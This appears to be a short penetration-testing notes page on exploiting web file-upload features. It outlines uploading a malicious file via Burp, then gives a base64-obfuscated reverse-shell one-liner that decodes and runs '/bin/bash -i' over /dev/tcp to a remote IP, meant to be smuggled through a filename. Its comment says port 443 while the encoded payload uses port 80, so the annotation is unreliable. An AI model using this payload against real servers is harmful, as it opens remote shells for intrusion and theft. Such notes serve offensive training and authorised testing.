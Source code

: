 ```yaml
---
title: File Upload
tags:
  - Exploitation
  - Web
---
```


[!ref icon="rocket" text="File Upload"](https://book.hacktricks.xyz/pentesting-web/file-upload)


### Burp

1. Use burp to upload a legitimate file.
2. Modify it until out get our malicious file uploaded !

### Reverse Shell

```bash If you need to get a R.S via filename, use base64 to avoid error

# eq. "/bin/bash -i >& /dev/tcp/192.168.45.222/443 0>&1"
echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNDUuMjIyLzgwIDA+JjEK | base64 -d | bash 
```